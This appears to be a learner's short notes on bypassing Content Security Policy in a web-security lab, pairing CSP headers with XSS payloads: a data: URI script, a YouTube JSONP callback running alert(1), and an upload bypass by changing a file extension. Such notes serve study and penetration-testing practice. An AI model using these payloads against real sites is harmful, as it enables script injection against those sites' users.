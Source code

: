 ___

Content Security Policy
https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass
# Data

```
content-security-policy
	script-src 'self' https://app.hackinghub.io data:
```

```html
<script src=data:text/javascript,alert(1)></script>
```

# 3rd Party Domains JSONP

```
content-security-policy
	script-src 'self' https://app.hackinghub.io https://www.google.com https://www.youtube.com
```


```html
<script/src=https://www.youtube.com/oembed?url=https://www.youtube.com/watch?v=oOfgVmxBk6U&callback=alert(1)></script>
```

# CSP Upload Bypass

```
Content-Security-Policy
	script-src 'self'
```

![[Pasted image 20241122125841.png]]

Change file extension

![[Pasted image 20241122130236.png]]

```
https://1972wbae.eu1.ctfio.com/csp-upload/uploads/369d4d050170f0f57940f893b149af74.js
```

```html

```